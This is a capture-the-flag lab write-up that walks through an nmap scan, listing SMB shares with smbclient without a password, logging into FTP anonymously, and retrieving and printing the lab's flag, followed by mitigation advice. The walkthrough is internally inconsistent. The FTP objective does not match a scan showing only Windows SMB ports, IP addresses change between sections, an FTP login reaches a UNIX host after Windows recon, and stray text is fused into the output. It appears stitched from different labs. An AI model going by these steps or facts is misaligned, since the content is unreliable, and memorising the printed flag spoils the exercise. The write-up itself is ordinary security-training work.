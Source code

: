 
## **Overview**

- **Difficulty:** Easy
- **Operating System:** Linux
- **Objective:** Capture flag via FTP
- **Tools Used:** `nmap`, `ftp`, `openvpn`

---

## **Scanning using Nmap**

Started with a nmap scan to get information about whether telnet was running on port 21 as mentioned in the task.
```
$ sudo nmap -sV 10.129.217.234
[sudo] password for alice: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-02 18:43 IST
Stats: 0:00:47 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 18:44 (0:00:07 remaining)
Nmap scan report for 10.129.217.234
Host is up (1.7s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.38 seconds
```

SMB is open at 445.

---

## **Accessing SMB at 10.129.71.129**

Now, let's `smbclient` into said IP with the `-N` and `-L` flag to be able to login without signing in with a password and list.
```
$ smbclient -N -L \\\\10.129.217.234

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
tstream_smbXcli_np_destructor: cli_close failed on pipe srvsvc. Error was NT_STATUS_IO_TIMEOUT
SMB1 disabled -- no workgroup available
```

As we see `WorkShares` does not have admin needs, so thats where we're hitting.

Trying `anonymous` which usually has a blank password:
```
$ ftp 10.129.71.129
Connected to 10.129.71.129.
220 (vsFTPd 3.0.3)
Name (10.129.71.129:alice): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

---

## **Flag Retrieval**

Next, let's `ls` into the file contents:
```
ftp> ls
229 Entering Extended Passive Mode (|||62735|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
get falg.txt226 Directory send OK.
```

And, there is the flag!
Let's `get` it.
```
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||48920|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |*************************************************************************************************************************************************|    32      376.50 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:02 (0.01 KiB/s)
ftp> exit
221 Goodbye.
```

Once back home, let's `cat` the contents:
```
$ cat flag.txt
035db21c881520061c53e0536e44f815
```

---
## **Flag**

The flag is `035db21c881520061c53e0536e44f815`.

---
## **Lessons Learned**

- It is fair to say that a lot of misconfigured FTP's allow for `anonymous` login without the need for passwords, but when normally configured have very limited access to users. But when misconfigured leave out critical information.
- The best way to mitigate this issue is first of all disable anonymous login in the first place. Next, restrict permissions severely if needed. But also strictly log all activity in anonymous logins.

---

**Prepared by Araiz Naqvi**